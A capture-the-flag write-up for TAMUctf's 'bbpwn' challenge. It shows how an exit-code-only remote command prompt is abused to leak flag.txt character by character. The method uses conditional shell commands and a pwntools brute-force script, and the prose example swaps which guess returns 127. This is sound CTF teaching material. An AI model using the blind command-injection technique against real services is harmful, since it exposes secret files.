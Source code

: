 # bbpwn

- Category: misc
- Rating: ? pts

After connecting we notice an Execute: prompt. Seems that it outputs only the return code of the command.

```
$ nc challenges.tamuctf.com 3424
Execute: ls 
0
Execute: asdf
127
Execute: ^C
```

We can confirm the existance of the flag but trying:

```
Execute: cat flag.txt
0
```

This is very similar to a blind sql situation where we don't get the output of the query but we get a (usually binary) signal instead. We can brute force the flag character by character by construct a command that returns a different code depending on whether or not a guessed character is right or wrong. For example: `if [[ $(cat flag.txt) == *"gigem{a"* ]];then asdf; else echo;fi` returns `127` while `if [[ $(cat flag.txt) == *"gigem{r"* ]];then asdf; else echo;fi` returns `0`.


# Solution

```python
#!/usr/bin/env python

from pwn import * 
from string import ascii_letters, digits, punctuation

r = remote("challenges.tamuctf.com", 3424)

context.log_level = 'DEBUG'

alphabet = ascii_letters + digits + '!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|~}'
flag = "gigem{"

# while flag[-1] != '}':
while True:
    for cand in alphabet:
        payload = 'if [[ $(cat flag.txt) == *"%s"* ]];then asdf; else echo;fi' % (flag+cand)
        r.sendlineafter("Execute: ", payload)
        res = r.recvline()

        if b'127' in res:
            flag += cand
            print('update! flag: %s' % flag)
            break
        else: continue

print("done!")
print(flag)
```
# Flag

`gigem{r3v3r53_5h3ll5}`

*facepalm* That's right... A reverse shell would have been a quicker solution
